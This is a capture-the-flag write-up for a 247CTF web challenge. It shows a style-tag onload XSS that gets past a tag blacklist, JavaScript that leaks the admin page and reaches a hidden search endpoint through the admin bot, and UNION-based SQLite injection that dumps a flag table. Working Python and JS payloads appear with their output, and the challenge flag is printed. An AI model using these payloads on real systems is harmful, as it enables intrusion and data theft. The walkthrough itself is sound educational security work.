








## Helicopter Administrators 



We are given a webpage where we can post comments as different users.  



There is also a report functionality, which clearly hints at an XSS challenge.  

The main caveats of this functionality is that the admin bot clears all comments for the reported user, and only allows basic HTML animations.  



The part of the website that is of most interest to us is the admin page at `/user/0`, as access is blocked for normal users.  

Our current goal would thus be to exfiltrate its page contents using XSS.  



If we try uploading a basic XSS payload, we are told that our payload has been blacklisted.  



We can find the actual endpoint our payload is submitted to for processing inside the HTML source.  



This time, if we submit our payload directly to `/comment/1`, we get back a JSON debug message containing the full blacklist.  

```python
import requests

url = 'https://a91678fa6cce40f9.247ctf.com/'

res = requests.post(f'{url}/comment/1', data={
    'comment': ''
})

print(res.text)
```

```json
{"message":"Blacklisted content detected in comment! <!-- CURRENT ENTITY BLACKLIST (CASE INSENSITIVE) => <a, <abbr, <acronym, <address, <applet, <area, <article, <aside, <audio, <b, <base, <basefont, <bdi, <bdo, <big, <blockquote, <body, <br, <button, <canvas, <caption, <center, <cite, <code, <col, <colgroup, <command, <datalist, <dd, <del, <details, <dfn, <dialog, <dir, <div, <dl, <dt, <em, <embed, <fieldset, <figcaption, <figure, <font, <footer, <form, <frame, <frameset, <head, <header, <hgroup, <hr, <html, <i, <iframe, ","result":"error"}
```

We can notice that `<style>` isn't included in the blacklist, so we can use a simple payload like `<style onload=alert(1)>` to get XSS.  



Now that we have an XSS primitive, we can use it to request the admin page at `/user/0` and exfiltrate its contents as Base64.  

Since the admin bot's browser doesn't have outbound connection and also clears all comments of the reported user, we can just exfiltrate the contents inside a comment on one of the other user pages.  

Also, the exfiltration only works if synchronous requests are used for some reason, possibly due to the admin bot's implementation, so we need to use `XMLHttpRequest()` instead of the conventional `fetch()`.  

```python
js = '''
x = new XMLHttpRequest();
x.open('GET', '/user/0', false);
x.send();

x2 = new XMLHttpRequest();
x2.open('POST', '/comment/2', false);
x2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
x2.send('comment='+encodeURIComponent(btoa(x.responseText)));
'''.replace(' ', '/**/').replace('\n', '')

payload = '<style onload="%s">' % js

res = s.post(f'{url}/comment/1', data={ 
    'comment': payload
})
```

Visiting `/user/2` after reporting our payload will reveal that our XSS attack indeed worked, and that the admin page contents have been leaked.  



Base64-decoding the leak reveals a form that submits to a secret `/secret_admin_search` endpoint.  

```html
...
<div class="mt-25">
<form class="navbar-form" method="POST" action="/secret_admin_search" comment="#search-response">
    <div id="search-response" class="description"></div>
    <div class="input-group">    
    <input type="text" class="form-control description" id="search" name="search">
    <span class="input-group-btn">
        <input type="submit" class="btn btn-default search" value="User ID Search">
    </span> 
    </div>
</form>
</div>
...
```

We can modify the JS logic of our XSS payload to SSRF to that endpoint instead.  

```python
js = '''
x = new XMLHttpRequest();
x.open('POST', '/secret_admin_search', false);
x.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
x.send('search=0');

x2 = new XMLHttpRequest();
x2.open('POST', '/comment/2', false);
x2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
x2.send('comment='+encodeURIComponent(btoa(x.responseText)));
'''.replace(' ', '/**/').replace('\n', '')

payload = '<style onload="%s">' % js
```

This causes `/secret_admin_search` to return a bunch of values that suspiciously resemble the results of an SQL query.  

```json
{"message":[[0,"Administrator",100,100,100,"New York, USA"]],"result":"success"}
```

If we change our `user_id` field to an SQLi payload like `-1 union select 1, 1, 1 --`, we can confirm the existence of an SQLi vulnerability.  

```json
{"message":"SQLite error: SELECTs to the left and right of UNION do not have the same number of result columns","result":"error"}
```

We can modify our payload to `-1 union select sql, 1, 1, 1, 1, 1 from sqlite_master --` and leak the database structure, revealing a hidden `flag` table.  

```json
{"message":[[null,1,1,1,1,1],["CREATE TABLE comment (id int, comment text)",1,1,1,1,1],["CREATE TABLE flag (flag text)",1,1,1,1,1],["CREATE TABLE user (id int primary key, name text, friends int, likes int, shares int, location text)",1,1,1,1,1]],"result":"success"}
```

We just have to modify our payload again to select the `flag` column from the `flag` table to get the flag.  

Flag: `247CTF{c9355024736f1fdfa121e243c7024540}`